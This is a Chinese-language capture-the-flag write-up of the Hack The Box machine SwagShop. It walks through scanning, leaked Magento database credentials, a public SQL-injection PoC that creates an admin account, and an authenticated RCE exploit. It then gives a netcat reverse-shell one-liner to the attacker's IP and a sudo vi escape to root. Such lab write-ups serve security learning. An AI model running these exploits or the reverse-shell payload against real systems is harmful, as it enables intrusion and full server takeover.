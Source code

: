 # 免责声明
>本文渗透的主机经过合法授权。本文使用的工具和方法仅限学习交流使用，请不要将文中使用的工具和渗透思路用于任何非法用途，对此产生的一切后果，本人不承担任何责任，也不对造成的任何误用或损害负责。

# 服务发现
```
┌──(root💀kali)-[~/htb/SwagShop]
└─# nmap -sV -sC 10.10.10.140 -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-15 03:57 EST
Nmap scan report for 10.10.10.140
Host is up (0.26s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://swagshop.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1190.67 seconds


```

先把靶机添加到host文件
```echo "10.10.10.140 swagshop.htb" >> /etc/hosts```

## 目录探测
```
┌──(root💀kali)-[~/dirsearch]
└─# python3 dirsearch.py -e* -t 100 -u http://swagshop.htb  

  _|. _ _  _  _  _ _|_    v0.4.2                                                                                                                                                                                                            
 (_||| _) (/_(_|| (_| )                                                                                                                                                                                                                     
                                                                                                                                                                                                                                            
Extensions: php, jsp, asp, aspx, do, action, cgi, pl, html, htm, js, json, tar.gz, bak | HTTP method: GET | Threads: 100 | Wordlist size: 15492

Output File: /root/dirsearch/reports/swagshop.htb/_21-12-15_04-25-16.txt

Error Log: /root/dirsearch/logs/errors-21-12-15_04-25-16.log

Target: http://swagshop.htb/

[04:25:17] Starting:           
[04:25:28] 301 -  309B  - /js  ->  http://swagshop.htb/js/                                                       
[04:25:40] 200 -   10KB - /LICENSE.txt                                      
[04:26:12] 200 -  571KB - /RELEASE_NOTES.txt                                                                
[04:26:19] 200 -   37B  - /api.php                                          
[04:26:19] 301 -  310B  - /app  ->  http://swagshop.htb/app/                
[04:26:19] 200 -    2KB - /app/                                             
[04:26:19] 200 -    2KB - /app/etc/local.xml                                
[04:26:19] 200 -    9KB - /app/etc/local.xml.additional                     
[04:26:19] 200 -    2KB - /app/etc/local.xml.template                       
[04:26:19] 200 -    5KB - /app/etc/config.xml                                  
[04:26:31] 200 -  717B  - /cron.sh                                          
[04:26:31] 200 -    0B  - /cron.php                                         
[04:26:37] 301 -  313B  - /errors  ->  http://swagshop.htb/errors/          
[04:26:38] 200 -    2KB - /errors/                                          
[04:26:39] 200 -    1KB - /favicon.ico                                      
[04:26:46] 200 -  946B  - /includes/                                        
[04:26:46] 301 -  315B  - /includes  ->  http://swagshop.htb/includes/      
[04:26:46] 200 -   16KB - /index.php                                        
[04:26:47] 200 -   44B  - /install.php                                      
[04:26:48] 200 -    4KB - /js/tiny_mce/                                     
[04:26:49] 301 -  318B  - /js/tiny_mce  ->  http://swagshop.htb/js/tiny_mce/
[04:26:50] 301 -  310B  - /lib  ->  http://swagshop.htb/lib/                
[04:26:50] 200 -    3KB - /lib/                                             
[04:26:54] 301 -  312B  - /media  ->  http://swagshop.htb/media/            
[04:26:55] 200 -    2KB - /media/                                           
[04:27:05] 200 -  886B  - /php.ini.sample                                   
[04:27:10] 301 -  314B  - /pkginfo  ->  http://swagshop.htb/pkginfo/        
[04:27:19] 403 -  300B  - /server-status                                    
[04:27:19] 403 -  301B  - /server-status/                                   
[04:27:20] 200 -    2KB - /shell/                                           
[04:27:21] 301 -  312B  - /shell  ->  http://swagshop.htb/shell/            
[04:27:24] 301 -  311B  - /skin  ->  http://swagshop.htb/skin/              
[04:27:34] 301 -  310B  - /var  ->  http://swagshop.htb/var/                
[04:27:34] 200 -  755B  - /var/backups/                                     
[04:27:34] 200 -    2KB - /var/                                             
[04:27:34] 200 -    4KB - /var/cache/                                       
[04:27:34] 200 -    9KB - /var/package/ 
```

首页显示是一个叫```Magento```的网站，在RELEASE_NOTES.txt 显示更新到```1.7.0.2```

```
==== 1.7.0.2 ====

=== Fixes ===
Fixed: Security vulnerability in Zend_XmlRpc - http://framework.zend.com/security/advisory/ZF2012-01 
Fixed: PayPal Standard does not display on frontend during checkout with some merchant countries
```

在```/app/etc/local.xml```页面貌似暴露出了一个mysql密码

```
<crypt>
<key>b355a9e0cd018d3f7f03607141518419</key>
</crypt>
<host>localhost</host>
<username>root</username>
<password>fMVWh7bDHpgZkyfqQXreTjU9</password>
<dbname>swagshop</dbname>
<initStatements>SET NAMES utf8</initStatements>
<model>mysql4</model>
<type>pdo_mysql</type>
<pdoType></pdoType>
<active>1</active>
```

但是我不能使用这个凭证登录ssh


经过不停的谷歌搜索，找到这个cms的一个sql注入的[POC](https://github.com/joren485/Magento-Shoplift-SQLI/blob/master/poc.py)

```
┌──(root💀kali)-[~/htb/SwagShop]
└─# python poc.py http://swagshop.htb                
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
WORKED
Check http://swagshop.htb/admin with creds ypwq:123

```

执行POC以后得到后台登录凭证：```ypwq:123```

登录页面：```http://10.10.10.140/index.php/admin/index/```

登录进系统在底部发现版本号：```Magento ver. 1.9.0.0```

按照版本号找到了[这个exp](https://www.exploit-db.com/exploits/37811)
然而这个exp一直报错，调了半天没有调好

于是在github找到了[另外一个](https://github.com/epi052/htb-scripts-for-retired-boxes/blob/master/swagshop/magento-oneshot.py)替代的exp


```
──(root💀kali)-[~/htb/SwagShop]
└─# python3 exp.py --username ypwq --password 123 --command "id" http://10.10.10.140/index.php/admin/index/                                                                                                                             1 ⨯
[+] Valid credentials (ypwq:123) found. Proceeding without adding a new user.
[-] Searching historical data using 7d as period parameter
[-] Parsing local.xml for install date.
[+] Found install date: Wed, 08 May 2019 07:23:09 +0000
[-] Sending 'id' for execution on the distant end.
[+] Exploit succeeded

uid=33(www-data) gid=33(www-data) groups=33(www-data)

```


证实存在远程代码执行

用下面payload拿到反弹shell

> python3 exp.py --username ypwq --password 123 --command "rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 4242 >/tmp/f" http://10.10.10.140/index.php/admin/index/

```
┌──(root💀kali)-[~/htb/SwagShop]
└─# nc -lnvp 4242                          
listening on [any] 4242 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.140] 57068
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 

```

# 提权
查看sudo权限
```
www-data@swagshop:/home/haris$ sudo -l
sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*

```

可以使用vi打开/var/www/html/目录下的任何文件

使用下面的命令提权到root

> sudo /usr/bin/vi /var/www/html/1 -c ':!/bin/sh' /dev/null

```
"/var/www/html/1" [New File]
# /bin/sh

# id
id
uid=0(root) gid=0(root) groups=0(root)
# whoami
whoami
root

```

已经提权到root,可以读取系统里面的任何文件。